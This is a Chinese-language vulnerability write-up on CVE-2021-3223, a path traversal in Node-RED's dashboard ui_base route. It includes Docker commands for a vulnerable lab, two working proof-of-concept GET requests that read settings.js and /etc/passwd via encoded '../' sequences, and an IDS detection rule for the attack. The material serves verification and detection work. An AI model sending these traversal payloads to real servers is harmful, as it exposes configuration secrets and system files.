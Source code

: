 ## Node-RED ui_base 任意文件读取漏洞(CVE-2021-3223)

### 0X 01、漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，
缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

**Version effect**:

```
node-red-dashboard 2.24.0
```

### 0X 02、漏洞验证 

#### <1> 环境部署：

To run in Docker in its simplest form just run:

```bash
构建：
docker run -p 1880:1880 -d --name mynodered nodered/node-red:1.2.3
npm i node-red-dashboard@2.24.0
docker restart `Containername`

一键启动（已制作一键启动镜像，自由食用）：
docker run -p 1880:1880 -d --name mynodered vulshare/node-red-dashboard-cve-2021-3223:iosname
```

#### <2> 漏洞验证：

```http
GET /ui_base/js/..%2f..%2f..%2f..%2fsettings.js
GET /ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

![image-20210712165202656](image/image-20210712165202656.png)

### 0X 03、漏洞检测相关

**规则如下：**

```ruby
alert tcp any any -> $EXTERNAL_NET $HTTP_PORTS (msg:"Node-RED ui_base 任意文件读取漏洞(CVE-2021-3223)"; flow:established,to_server; content:"ui_base"; nocase; http_uri; pcre:"/ui_base[/|\\]js(%2f|\x2f)..(%2f|\x2f)..(%2f|\x2f)/i";  classtype:web-application-attack; sid:2020233; rev:1;)
```

### 0X 04、 验证如下

![image-20210706104404822](image/image-20210706104404822.png)

